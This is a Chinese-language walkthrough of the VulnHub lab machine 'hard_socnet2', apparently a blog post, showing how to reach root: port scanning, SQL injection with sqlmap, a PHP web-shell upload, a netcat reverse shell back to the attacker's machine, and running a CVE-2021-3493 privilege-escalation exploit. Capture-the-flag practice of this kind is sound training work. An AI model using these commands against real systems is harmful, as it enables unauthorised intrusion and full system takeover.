






# 下载地址

 https://download.vulnhub.com/boredhackerblog/hard_socnet2.ova


# 靶机目标

获取靶机root权限


# 详细步骤


## 主机发现

```
arp-scan -l -I eth1
```


然后扫描端口

```
nmap -sV -p- 192.168.56.109
```


发现80，8000都是开放的，访问80端口


## web信息收集



发现有登录和注册功能，尝试弱口令和万能密码，无果，注册一个账号试试看

注册后，成功进入界面，测试功能点，发现主页可以上传文件，搜索框存在sql注入




先尝试sql注入，直接用sqlmap跑

发现能跑出所有数据



发现有管理员的账号和密码，但是登录后无果

随后发现文件上传点



可以直接上传.php木马

通过蚁剑连接


查看用户权限，发现是普通用户权限，尝试提权

使用CVE-2021-3493漏洞提权


把exploit.c传入/var/tmp目录下

在蚁剑的虚拟终端反弹shell进一步提升可操作权限



目标机

```
nc 192.168.56.103 7777 | /bin/sh | nc 192.168.56.103 8888 
```

kali机

```
nc -lvvp 7777
nc -lvvp 8888
```

进入/var/tmp目录下，编译exploit.c

```
gcc -o exp exploit.c
```

给权限并运行

```
chmod +x exp
./exp
```



成功取得root权限！
